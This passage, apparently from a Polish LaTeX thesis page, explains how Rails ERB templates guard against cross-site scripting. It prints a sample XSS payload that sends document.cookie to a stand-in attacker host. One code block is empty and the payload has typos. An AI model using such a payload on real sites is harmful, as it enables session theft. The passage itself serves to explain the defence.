 \emph{Przykładowy atak typu XSS:}

\begin{code}
  \begin{lstlisting}[language=HTML, showstringspaces=false]
  <script>
    document.write(
      '<img scr="http:/hacked.site.com/' + document.cookie + '">'
    );
  </script>
  \end{lstlisting}
\end{code}\\

Dzięki wbudowanemu w Railsy systemowi \emph{ERB templates}\footnote{System za pomocą, którego kod strony html jest generowany dynamicznie.} mamy doczynienia z dynamicznym tworzeniem kodu HTML, co uniemożliwia większość ataków tego typu. Wszelkiego rodzaju odnośniki i dane na stronie zapisywane są przy użyciu specjalnej notacji:

\begin{code}
  
\end{code}\\

która następnie zostaje przekompilowana do kodu HTML przez serwer i wysłana przeglądarce internetowej.

\begin{code}
  \begin{lstlisting}[language=HTML, showstringspaces=false]
    <a href="/events">My events</a>
    <a href="/">Events</a>
  \end{lstlisting}
\end{code}\\

